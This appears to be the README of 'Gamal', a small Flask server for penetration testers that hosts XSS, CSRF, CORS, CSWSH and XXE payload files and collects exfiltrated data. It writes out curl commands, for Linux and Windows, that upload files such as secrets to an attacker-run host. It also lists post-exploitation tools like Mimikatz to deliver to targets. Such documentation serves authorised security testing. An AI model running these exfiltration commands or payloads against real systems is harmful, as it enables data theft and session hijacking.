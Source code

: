# Gamal

A tiny flask app for helping pentesters, red-teamers and bug hunters in data exfileration, SSRF, XSS, Session Hijacking, Session Riding and Cookie Thieve.

## Install & usage

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
python3 -m pip install flask
python3 gamal.py
```  

Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>]`

Then you can use your IP & Port in your payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

## Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

## Data exfiltration

### Linux / MacOS

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Windows

`Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
 curl -k -F "file=/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:
`{host}--{user}--{request.remote_addr}--{random-uuid4}-{RealFileName}`

## Gamal helper script

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use them in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)